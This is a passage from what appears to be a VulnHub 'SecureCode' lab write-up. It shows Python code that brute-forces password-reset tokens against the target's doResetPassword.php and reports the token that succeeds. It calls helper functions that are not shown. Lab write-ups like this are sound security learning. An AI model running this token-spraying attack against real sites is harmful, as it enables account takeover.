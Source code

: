 ```py
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url_orig = "http://%s:80/login/doResetPassword.php" %rhost
    headers = {"Upgrade-Insecure-Requests": "1"}
    f = open("token_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        url = url_orig + "?token=%s" %token_value
        res = r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, allow_redirects=True)    
        if "Invalid password reset link"not in res.text:
            print("[+] Token Used: %s ! [+]" %token_value) 
            break
        else:
            url = url_orig
            continue

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Generate the list predict
    mountPredictLogic()
    # Send the token to the admin
    sendToken(rhost)
    # Brute Force the token
    sprayToken(rhost)
    

if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-20-VulnHub-SecureCode/2021-11-20-VulnHub-SecureCode%2007:21:59.png)
